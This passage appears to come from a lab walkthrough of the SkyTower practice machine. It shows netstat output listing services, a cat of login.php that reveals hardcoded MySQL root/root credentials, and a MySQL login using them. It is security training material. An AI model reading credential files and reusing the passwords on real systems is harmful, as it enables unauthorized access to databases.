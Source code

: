 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
john@SkyTower:~$ sudo 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Looking at the services running on the server

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
john@SkyTower:~$ netstat -antp
(No info could be read for "-p": geteuid()=1000 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 192.168.56.106:22       192.168.56.106:53879    ESTABLISHED -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 :::3128                 :::*                    LISTEN      -               
tcp6       0      0 192.168.56.106:3128     192.168.56.102:47628    ESTABLISHED -               
tcp6       0      0 192.168.56.106:53879    192.168.56.106:22       ESTABLISHED -               

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Looking at the index.php in /var/www

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
john@SkyTower:/var/www$ cat login.php
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Connecting to mysql
username : root
password : root


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 46
Server version: 5.5.35-0+wheezy1 (Debian)

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
